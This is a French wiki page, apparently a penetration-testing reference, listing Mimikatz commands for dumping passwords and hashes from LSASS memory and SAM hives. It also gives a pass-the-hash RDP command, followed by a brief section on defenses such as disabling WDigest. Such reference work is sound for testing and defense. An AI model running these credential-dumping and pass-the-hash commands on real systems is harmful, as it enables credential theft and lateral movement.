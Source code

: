 ```yaml
---
title: Mimikatz
permalink: /Mimikatz/
---
```


# Mimikatz

## Commandes utiles

Repris de https://github.com/gentilkiwi/mimikatz/wiki

### Récupération mots de passe

#### online

``` text
privilege::debug
sekurlsa::logonpasswords
```

#### offline

Récupération d'un dump avec prodcump

``` powershell
.\procdump64.exe -accepteula -ma lsass.exe c:\windows\tmp\lsass.dmp 
```

A partir d'un dump lsass.dmp

``` text
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Récupération de hashs

#### online

``` text
privilege::debug
token::elevate
lsadump::sam
```

#### offline

Récupérer SAM et system:
```text
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Dumper les hashs avec mimikatz:
```text
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
```

### Pass the hash et RDP
``` text
privilege::debug
sekurlsa::pth /user:heidegger /domain:SHINRA-INC /ntlm:XXXXXXXXXXXXXXXX /run:"mstsc.exe /restrictedadmin"
```

## Secrets d'authentification en mémoire

Les "logins" suivants provoquent le stockage d'information d'authenficaction en mémoire [Administrative Tools and Logon Types](https://technet.microsoft.com/en-us/windows-server-docs/security/securing-privileged-access/securing-privileged-access-reference-material#a-nameatltbmaadministrative-tools-and-logon-types)

Trucs & astuces:
- Sous les vieilles versions de Windows il est possible d'utiliser mimilove.
- Il est possible de dumper lsass et de l'analyser offline avec mimikatz.

## Compatibilité minidump

Voir [sekurlsa :: minidump](http://blog.gentilkiwi.com/securite/mimikatz/minidump).

## Défenses

Il existe plusieurs mécanismes pour se défendre contre les attaques utilisant Mimikatz (Plus d'informations sur ADSecurity: <https://adsecurity.org/?p=559>)

### Désactiver wdigest

A partir de Windows 8.1 et Windows Server 2012 les mots de passes ne sont plus stockés en mémoire par défaut. De plus il est possible de faire en sorte que les mots de passe n'apparaissent pas en mémoire dans les anciennes versions de Windows. Il faut pour cela:

-   Appliquer le patch KB2871997
-   Modifier la clé de registre suivante pour qu'elle ait 0:

``` text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```


Références
----------

-   [Unofficial Guide to Mimikatz & Command Reference - ADSecurity](https://adsecurity.org/?page_id=1821)
-   [Mimikatz Overview, Defenses and Detection](https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780)
-   [Utilisation avancée de Mimikatz](http://connect.ed-diamond.com/MISC/MISC-066/Utilisation-avancee-de-Mimikatz)
-   [Administrative Tools and Logon Types](https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material#ATLT_BM): Information sur la réutilisation des mots de passe

